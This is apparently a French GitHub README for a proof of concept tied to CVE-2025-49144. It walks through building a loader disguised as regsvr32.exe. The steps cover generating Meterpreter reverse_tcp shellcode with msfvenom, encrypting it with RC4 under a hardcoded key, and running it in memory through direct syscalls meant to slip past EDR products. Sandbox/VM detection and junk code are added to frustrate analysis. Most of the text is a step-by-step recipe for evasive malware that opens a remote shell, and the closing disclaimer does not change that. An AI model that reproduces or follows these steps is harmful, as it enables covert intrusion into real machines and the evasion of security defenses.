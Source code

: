 # 🔓 CVE-2025-49144

Ce projet illustre un PoC exploitant la vulnérabilité **CVE-2025-49144**, en détournant l’appel à `regsvr32.exe` (LOLBIN hijacking) pour exécuter du shellcode chiffré en **RC4**, injecté en mémoire via des **appels système directs** grâce à [SysWhispers3](https://github.com/klezVirus/SysWhispers3).  
Le shellcode utilisé est typiquement un **Meterpreter** généré via `msfvenom`.

---

## 💡 Fonctionnalités

* Chiffrement RC4 du shellcode avec clé en dur
* Détection sandbox / VM optionnelle
* Appels système directs : `NtAllocateVirtualMemory`, `NtProtectVirtualMemory`, `NtTerminateProcess`
* Exécution payload **in-memory** (aucune écriture sur disque)

---

## ⚙️ Étapes de génération

### 1. Générer le shellcode avec msfvenom

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=X.X.X.X LPORT=XXX -f c -o shellcode.txt
```

---

### 2. Formater le shellcode pour Python

```bash
python3 format_shellcode_txt.py
```

Ce script :
- Lit le contenu du fichier `shellcode.txt`
- Extrait et nettoie le shellcode brut
- Affiche un formatage compatible Python (`b"\xfc\x..."`)
- 📌 **Copier** la sortie dans la variable `shellcode = (...)` du fichier `rc4_shellcode.py`

---

### 3. Chiffrer le shellcode et générer un header C

```bash
python3 rc4_shellcode.py
```

Cela va :
- Chiffrer le shellcode avec RC4 (clé définie dans le script)
- Génére un fichier `encrypted_payload.h` contenant :
  ```c
  unsigned char payload[] = { 0xAA, 0xBB, ... };
  unsigned int payload_len = ...;
  ```

---

### 4. Compiler avec MinGw64

```bash
x86_64-w64-mingw32-gcc loader.c syscalls.c syscalls.obj -o "C:\DEV\regsvr32.exe" -mwindows -s -O2
```

---

## 📂 Fichiers

### `format_shellcode_txt.py`

Convertit un shellcode brut C (`shellcode.txt`) en format `bytes` Python pour intégration dans `rc4_shellcode.py`.

---

### `rc4_shellcode.py`

- Contient une **clé RC4 en dur** (`b"hola"`)
- Chiffre le shellcode
- Génére un header C (`encrypted_payload.h`) contenant le payload chiffré

---

### `loader.c`

Le loader principal qui :
- Inclut le shellcode chiffré depuis `encrypted_payload.h`
- Le déchiffre en mémoire avec `rc4()`
- Alloue, copie, rend exécutable puis exécute le shellcode via **SysWhispers3**
- Simule l’appel à `regsvr32.exe` réel pour camoufler l'exécution
- Intègre une détection sandbox optionnelle et du code "junk"

---

### `syscalls.c/.h/.obj`

Générés avec [SysWhispers3](https://github.com/klezVirus/SysWhispers3). Contiennent les wrappers nécessaires aux syscalls directs, pour contourner certains EDRs.

---

## 🔍 Détails du Code

### RC4 (chiffrement/déchiffrement)

```c
void rc4(unsigned char *data, unsigned int len, const unsigned char *key, unsigned int keylen) { ... }
```

Fonction utilisée côté Python (chiffrement) et côté C (déchiffrement en mémoire).

---

### Fonction `junk`

```c
void junk() {
    int a = rand() % 123;
    if (a == 42) MessageBoxA(NULL, "Noise", "Filler", MB_OK);
}
```

Ajoute du bruit au binaire final pour modifier l’empreinte (hash) et perturber l’analyse statique.

---

### Détection sandbox

```c
BOOL is_sandbox_environment() { ... }
```

Détecte :
- < 2 Go RAM
- < 2 CPU
- Temps d’inactivité > 5min
- Uptime < 30 sec
- Présence de strings VMware, VBox, QEMU dans le BIOS

---

### Exécution via Syscalls

```c
Sw3NtAllocateVirtualMemory(...)
memcpy(...)
rc4(...)
Sw3NtProtectVirtualMemory(...)
((void(*)())baseAddr)();
```

Utilise les appels noyau pour éviter `VirtualAlloc`, `VirtualProtect`, etc.

---

### Exécution de regsvr32.exe

```c
GetSystemDirectoryA(sysPath, MAX_PATH);
strcat(sysPath, "\\regsvr32.exe");
CreateProcessA(...);
```

Lance la vraie version de `regsvr32.exe` pour potentiellement brouiller l’analyse comportementale.


## 🧷 Notes complémentaires

* Pense à regénérer `encrypted_payload.h` à chaque nouveau shellcode
---

## ⚠️ Avertissement légal

> 🔬 Ce projet est fourni uniquement à des fins pédagogiques et de **recherche en sécurité offensive**.  
> 🛑 L’auteur décline toute responsabilité en cas d’usage malveillant.
